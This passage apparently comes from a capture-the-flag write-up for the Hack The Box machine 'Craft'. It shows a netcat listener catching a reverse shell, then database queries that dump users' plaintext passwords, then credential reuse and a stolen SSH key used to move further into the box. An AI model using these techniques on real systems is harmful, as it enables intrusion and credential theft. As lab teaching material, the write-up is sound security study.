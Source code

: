 Now let's list the tables for the database, and see if we can read some of the more interesting
sounding ones.

```
$ nc -lv -p 4444
listening on [any] 4444 ...
connect to [10.10.xx.xx] from craft.htb [10.10.10.110] 39969
# ls
app.py
craft_api
database.py
dbtest.py
tests
# python3 database.py
 >> SELECT table_name FROM information_schema.tables
{'TABLE_NAME': 'brew'}
{'TABLE_NAME': 'user'}

...

 >> SELECT * FROM user 
{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}
{'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}
{'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}
 >> exit
# exit
```

Awesome! More credentials. I wonder if any of these will work for the web server? Let's try logging
into the git management service with these new credentials.

Gilfoyle! Of all the people I wouldn't have expected to re-use credentials, it was you? Even
Erlich didn't re-use his for the git management service! Anyway, a bit of clicking around reveals a
new private repository. And in this repository... an ssh key! More credentials, yikes, but at least
this repo is private. Let's try and use this new key, taking a look at the public key, it looks
like he used the username "gilfoyle".
```
$ ssh -i ssh_gilfoyle gilfoyle@10.10.10.110

  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/

Enter passphrase for key 'keys/ssh_gilfoyle':
```
